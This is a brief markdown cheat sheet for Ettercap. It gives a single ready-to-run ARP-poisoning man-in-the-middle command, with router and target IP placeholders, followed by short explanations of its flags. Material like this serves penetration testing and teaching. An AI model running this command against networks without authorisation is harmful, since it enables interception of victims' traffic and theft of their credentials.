 ```yaml
---
title: ETTERCAP
summary: A comprehensive suite for man in the middle attacks.
description: A comprehensive suite for man in the middle attacks.
---
```


[https://github.com/Ettercap/ettercap](https://github.com/Ettercap/ettercap)

## ETTERCAP Base


 > 
 > **<font color=red>ettercap -T -S -i</font> wlan0 <font color=red>-M arp:remote /</font>\[ROUTER_IP\]<font color=red>// /</font>\[TARGET_IP\]<font color=red>//</font>**

## ETTERCAP Flags


 > 
 > **<font color=red>-T</font></br>**
 > Text Only (no GUI). 
 > 
 > **<font color=red>-S</font></br>**
 > Do no use SSL.
 > 
 > **<font color=red>-i </font>wlan0</br>**
 > Specify interface.
 > 
 > **<font color=red>-M </font></br>**
 > Man In The Middle Attack.
 > 
 > **<font color=red>arp:remote</font></br>**
 > Attack Method.
